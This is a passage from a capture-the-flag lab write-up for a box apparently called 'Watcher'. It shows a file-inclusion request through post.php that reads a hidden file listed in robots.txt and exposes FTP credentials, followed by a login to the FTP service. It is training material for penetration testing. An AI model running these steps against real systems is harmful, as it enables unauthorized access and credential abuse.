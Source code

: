 ~~~
~~~

Let's try to read the other file listed in the `robots.txt` file:

~~~
kali@kali:/data/Watcher$ curl -s http://10.10.85.119/post.php?post=secret_file_do_not_read.txt

[REDACTED]

<div class="row">
 <div class="col-2"></div>
 <div class="col-8">
  Hi Mat,

The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

Will

----------

ftpuser:givemefiles777
 </div>
</div>

</main>

<footer class="text-muted">
  <div class="container">
    <p class="float-right">
      <a href="#">Back to top</a>
    </p>
    <p>&copy; Corkplacemats 2020</p>
  </div>
</footer>
</html>
~~~

The file contains credentials (`ftpuser:givemefiles777`) to connect to the FTP service. Let's connect:

~~~
kali@kali:/data/Watcher$ ftp 10.10.85.119
Connected to 10.10.85.119.
220 (vsFTPd 3.0.3)
Name (10.10.85.119:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
~~~

The FTP service hosts a file and a directory (with write access).
